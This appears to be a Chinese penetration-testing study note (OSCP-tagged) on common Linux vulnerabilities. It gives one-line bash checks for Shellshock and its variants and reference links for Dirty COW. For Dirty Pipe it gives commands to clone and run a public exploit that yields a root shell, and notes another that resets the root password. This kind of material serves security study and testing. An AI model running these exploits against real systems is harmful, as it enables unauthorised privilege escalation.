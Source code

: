```yaml
---
title: Common-Linux-Vulnerabilities
tags: oscp
---
```




## 破壳 CVE-2014-6271

```bash
$ env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

演示：https://github.com/vulhub/vulhub/tree/3a513cc4d40b5bf9035a2774b82ab56c9676bda7/bash/CVE-2014-6271

## 破壳变种  CVE-2014-7169

```bash
$ env X='() { (shellshocker.net)=>\' bash -c "echo date"; cat echo; rm ./echo
```

##  破壳变种  CVE-2014-7186

```bash
$ bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || 
echo "CVE-2014-7186 vulnerable, redir_stack"
```

##  破壳变种  CVE-2014-7187

```bash
$ (for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
```

## 破壳变种  CVE-2014-6278

```bash
$ shellshocker='() { echo You are vulnerable; }' bash -c shellshocker
```

## 破壳变种  CVE-2014-6277

```bash
$ bash -c "f() { x() { _;}; x() { _;} <<a; }" 2>/dev/null || echo vulnerable
```





## 脏牛 CVE-2016-5195



**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## 大脏牛 CVE-2017-1000405



**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## 脏管 CVE-2022-0847

1. poc by [Arinerron](https://github.com/Arinerron)

https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c



执行后密码root修改为`aaron`



2. poc by [r1is](https://github.com/r1is)

https://github.com/r1is/CVE-2022-0847/blob/main/Dirty-Pipe.sh

执行后获得root shell

```bash
$ git clone https://github.com/r1is/CVE-2022-0847.git
$ cd CVE-2022-0847
$ chmod +x Dirty-Pipe.sh
$ bash Dirty-Pipe.sh
```

还有几个待补充

**参考：[CVE-2022-0847 Linux 脏管漏洞分析与利用](https://www.freebuf.com/vuls/331378.html)**
